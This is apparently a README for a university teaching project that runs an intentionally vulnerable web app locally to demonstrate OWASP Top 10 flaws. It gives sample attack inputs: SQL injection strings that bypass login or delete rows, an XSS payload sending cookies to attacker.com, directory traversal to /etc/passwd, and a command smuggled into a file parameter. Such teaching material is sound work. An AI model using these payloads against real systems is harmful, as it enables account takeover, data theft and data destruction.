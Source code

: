 # zcu_webapp_security_demo
Small education project demonstrating typical security vulnerabilities in web application.
Created for University of West Bohemia.

## Installation
* Install [VirtualBox](https://www.virtualbox.org/wiki/Downloads)
* Install [Vagrant](https://docs.vagrantup.com/v2/installation/index.html "Vagrant docs - Istallation")
* Install Vagrant plugin for VirtualBox guest additions
```bash
> vagrant plugin install vagrant-vbguest
```
* checkout this repository
```bash
> git clone git@github.com:veny/zcu_webapp_security_demo.git
```
* run vagrant box
```bash
> cd zcu_webapp_security_demo
> vagrant up
```
* for the first time it will take about 15 minutes till vagrant is ready (depending on your internet connection)
* in browser go to http://192.168.33.10/zcu/index.php
* for authentication use (username/password)
 * foo/bar
 * alfa/bravo

## OWASP top 10 examples
* https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project

### Injection
* put that as password (empty username)
```sql
' OR id='2
' OR username='alfa
```
* or even worst
```sql
'; UPDATE user SET password='123
'; DELETE FROM user WHERE id='8
```

### XSS
* put following text as notice
```html
<b onmouseup=alert("XSS!")>click me!</b>
```
* or even worst
```html
<script>document.location= "http://www.attacker.com/cgi-bin/cookie.cgi?foo="+document.cookie</script>
```

### Broken Session Management
* application with URL rewriting
* no logout and session timeout

### Sensitive Data Exposure
* to monitor HTTP traffic
```bash
root> tcpdump -A -vvv -i vboxnet1 host 192.168.33.10
```

### Cross-Site Request Forgery
* try this: http://192.168.33.10/zcu/index.php?action=create&notice=pokus


### Security Misconfiguration
* Directory listing is not disabled on your server
  * try this: http://192.168.33.10/zcu/list
  * selinux (setenforce 0, setenforce 1)
* Directory traversal
  * for this reason: http://192.168.33.10/zcu/list/fancy_script.php
  * but can be misused: http://192.168.33.10/zcu/list/get_file.php?file=../../../../etc/passwd
  * or: http://192.168.33.10/zcu/list/get_file.php?file=get_file.php
  * or even worst: http://192.168.33.10/zcu/list/get_file.php?file=/proc/1/cmdline;%20ls%20-al%20/


## Where to go next
* [OWASP Top Ten 2013 Project](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2013_Project)
* [OWASP Secure Coding Practices](https://www.owasp.org/images/0/08/OWASP_SCP_Quick_Reference_Guide_v2.pdf)


____


### Vagrant troubleshooting (Fedora 23)

#### 1) Failed to mount folders in Linux guest.
```bash
Failed to mount folders in Linux guest. This is usually because the "vboxsf" file system is not
available. Please verify that the guest additions are properly installed in the guest and  can
work properly. The command attempted was:
mount -t vboxsf -o uid=`id -u vagrant`,gid=`getent group vagrant | cut -d: -f3` opt_zcu_demo /opt/zcu_demo
mount -t vboxsf -o uid=`id -u vagrant`,gid=`id -g vagrant` opt_zcu_demo /opt/zcu_demo
...
/sbin/mount.vboxsf: mounting failed with the error: No such device
```
  - Problem description and solution described here: https://github.com/dotless-de/vagrant-vbguest/issues/170
   - shortly: vagrant ssh, sudo systemctl enable vboxadd, service vboxadd start, vagrant reload, vagrant provision

#### 2) Building the main Guest Additions module fail --> sync folder not mounted
```bash
...
Installing Virtualbox Guest Additions 5.0.10 - guest version is unknown
Verifying archive integrity... All good.
Uncompressing VirtualBox 5.0.10 Guest Additions for Linux............
VirtualBox Guest Additions installer
Removing installed version 5.0.10 of VirtualBox Guest Additions...
Removing existing VirtualBox non-DKMS kernel modules[  OK  ]
Copying additional installer modules ...
Installing additional modules ...
Removing existing VirtualBox non-DKMS kernel modules[  OK  ]
Building the VirtualBox Guest Additions kernel modules
The headers for the current running kernel were not found. If the following
module compilation fails then this could be the reason.
The missing package can be probably installed with
yum install kernel-devel-3.10.0-229.14.1.el7.x86_64

Building the main Guest Additions module[FAILED]
(Look at /var/log/vboxadd-install.log to find out what went wrong)
...
```
   - shortly: vagrant ssh, sudo yum update, Ctrl+D, vagrant reload
